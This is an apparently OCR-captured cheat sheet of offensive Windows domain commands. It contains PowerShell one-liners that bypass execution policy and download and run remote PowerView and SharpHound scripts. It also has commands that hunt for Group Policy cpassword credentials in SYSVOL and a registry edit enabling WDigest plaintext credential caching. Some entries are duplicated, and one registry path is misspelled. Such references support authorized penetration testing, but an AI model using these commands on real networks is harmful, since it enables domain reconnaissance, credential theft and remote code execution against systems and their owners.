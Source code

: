 # Invoke-ShareFinder and print output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"

# Import PowerView Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"

# Invoke-Bloodhound
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"

# Find GPP Passwords in SYSVOL
findstr /S cpassword $env:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
runas /user:DOMAIN\USER /noprofile powershell.exe

# Insert reg key to enable Wdigest on newer versions of Windows
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1


# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"

## Import PowerView Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')"

## Invoke-BloodHound for domain recon
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
